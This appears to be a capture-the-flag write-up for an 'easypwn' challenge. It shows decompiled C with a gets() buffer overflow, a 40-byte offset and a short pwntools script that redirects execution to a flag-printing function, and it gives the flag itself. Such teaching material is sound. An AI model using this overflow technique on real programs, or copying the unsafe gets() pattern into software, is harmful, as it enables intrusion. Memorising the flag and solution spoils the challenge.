 # easypwn

author: surprior

flag: `EPT{S0meth1n6_2_ge7_u_5t4rt3d}`

## Solve

### Reversing
This challenge consisted of a main function which called a function called `hello`

```c
undefined8 main(void)

{
  ignore_me_init_buffering();
  hello();
  return 0;
}
```


The function `hello` prompts the user for a name, and prints it back out. The vulnerability is the use of gets.
```c
void hello(void)

{
  char local_28 [32];
  
  puts("Hello!");
  puts("What\'s your name? ");
  gets(local_28);
  printf("Goodbye, %s!\n",local_28);
  return;
}
```

We can therefore input a lot of chars to overflow the buffer and overwrite `rip`. We need somewhere to jump after overwriting `rip`. Luckily there exists a function called `winnner` that opens and prints `flag.txt`

```c

void winner(void)

{
  int __c;
  int iVar1;
  FILE *__stream;
  
  __stream = (FILE *)FUN_00401140("flag.txt",&DAT_00402008);
  if (__stream == (FILE *)0x0) {
    puts("Unable to open the file \'flag.txt\'");
  }
  else {
    puts("You are Winner! Flag:");
    while( true ) {
      __c = fgetc(__stream);
      iVar1 = feof(__stream);
      if (iVar1 != 0) break;
      putchar(__c);
    }
    putchar(10);
    fclose(__stream);
  }
  return;
}
```


### Creating the exploit

We send a lot of chars into the program and see it crash at the `ret` of the `hello` function
![](img1.png)

We can then find the offset, which in this case is 40.
![](img2.png)

The script will therefore look like this
```python
io = start()

payload = b"A"*40
payload += p64(exe.sym.winner)

io.recvuntil(b"What's your name? \n")
io.sendline(payload)

io.interactive()
```


By running this we get the flag!
![](img3.png)

The whole exploit script can be found here: [exploit.py](exploit.py)
